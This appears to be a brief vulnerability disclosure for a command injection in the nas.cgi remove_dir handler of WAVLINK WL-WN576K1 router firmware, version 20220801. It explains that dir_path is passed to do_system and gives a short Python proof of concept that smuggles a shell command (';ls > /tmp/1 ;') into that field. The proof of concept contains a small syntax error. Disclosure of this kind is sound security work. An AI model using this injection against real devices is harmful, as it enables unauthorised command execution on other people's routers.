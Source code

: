 # command injection

## WAVLINK_WL_WN576K1

version: 20220801

## Description:

There is a command injection in nas.cgi/remove_dir

## Source:

you may download it from : 

[WL-WN576K1 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/5ce8519bd8.html)

## Analyse:

![](11.png)

get value from dir_path, then call do_system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/nas.cgi"
payload = ';ls > /tmp/1  ;' + '\n'

r = requests.post(url, data={ 'page':'rmdir', 'dir_path': + payload})
```
